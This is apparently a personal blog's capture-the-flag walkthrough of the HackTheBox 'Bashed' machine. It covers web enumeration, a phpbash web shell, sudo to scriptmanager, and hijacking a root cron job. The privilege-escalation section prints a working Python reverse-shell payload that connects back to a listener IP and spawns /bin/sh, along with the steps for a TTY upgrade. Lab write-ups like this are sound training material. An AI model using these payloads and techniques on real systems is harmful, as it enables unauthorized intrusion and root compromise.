 ```yaml
---
title: "Bashed"
date: 2023-06-24T23:52:47+02:00
tags: ["privesc","web","linux"]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: ""
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```



## Room Information

- Room name: Bashed
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Bashed

![Untitled](/HTB/bashed-icon.png)

## Tools Used

- Nmap
- Gobuster
- Nikto

## Port Scanning

![Untitled](/HTB/bashed-1.png)

In the port scan we can see that the only service running is a web server.

## Enumeration

![Untitled](/HTB/bashed-4.png)

![/Untitled](/HTB/bashed-5.png)

If we visit the website there are only one article with a web reverse shell information called phpbash, and a url to the github project.

In the url we can find some useful information like how works, this shell removes the necessity of do a traditional reverse shell.

Let’s try this but first some fuzzing

![Untitled](/HTB/bashed-6.png)

We can see that there is a uploads directory maybe we can try to upload a reverse shell.

With nikto, I found that the /dev directory maybe its useful

![Untitled](/HTB/bashed-7.png)

Inside the directory, there are two files, the two of them are the reverse shell which we have seen in the previous github project (seems like a reverse shell to his own machine). If we try to run one we get in.

## Gaining an Initial Foothold

![Untitled](/HTB/bashed-8.png)

We are logged like the web service and the user flag is in the arrexel home directory.

![Untitled](/HTB/bashed-9.png)

Now let’s elevate privilege

If we go to the / directory we can see that inside there is a script folder created by scriptmanager user.

When we try sudo -l we found that the the www-data user has acces to scriptmanager as sudo.

Let’s try `sudo -u scriptmanager -e /bin/bash` 

![Untitled](/HTB/bashed-10.png)

Don’t seem to work, maybe the web server doesn’t allow some commands.

Now let’s try to upload the reverse shell and this time trying to connect it to our machine instead of using the shell on /dev.

One way is to create a http server and curl the file in the victim machine. We need to modify the reverse shell file that I get [here](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) with our ip and port.

![Untitled](/HTB/bashed-11.png)

![Untitled](/HTB/bashed-12.png)

Now let’s open a listening port with netcat and run the shell.

![Untitled](/HTB/bashed-13.png)

![Untitled](/HTB/bashed-14.png)

Before nothing, we are going to pass from a dumb shell to a fully interactive one.

First once we spawn a bash with `python -c 'import pty; pty.spawn("/bin/bash")'` then lets keep the nc in background with ctrl^z, once done we use `stty raw -echo` and then `fg` to return to the web shell but fully interactive this time.

Let’s retry `sudo -u scriptmanager /bin/bash`

![Untitled](/HTB/bashed-15.png)

We are scriptmanager now, let’s see what we can do in the /scripts folder. It’s seems like there are two files in the folder. One of them [test.py](http://test.py) look like this:

```bash
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

This file is created by scriptmanager but the execution of the file needs be owned by root somehow because inside the execution we are opening the test.txt file that only can be modified with root permissions. If you observe the creation time of the file test.txt, you will notice that it undergoes changes every minute. This pattern strongly suggests the presence of a cron job, which is owned by the root user, and is responsible for executing the test.py script every minute.

We can use this to our advantage and change the content of the [test.py](http://test.py) file to a reverse shell and get the system own.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.17",1234)) //change this
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

I get this reverse shell from [pentestmonkey’s](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) handy dandy list of reverse shells.

Let’s set up a listener in the port 1234 and let the magic happen.

![Untitled](/HTB/bashed-17.png)

## Lessons Learned

- What insights did you gain from the room?
    
    I acquired knowledge on the functioning of a cron job and discovered ways to exploit it for potential machine compromise.
    
- Were there any novel tools or techniques employed?
    
    Notably, the utilization of nikto and various reverse shells were introduced.

**Thank you for reading, and happy hacking! 😄**
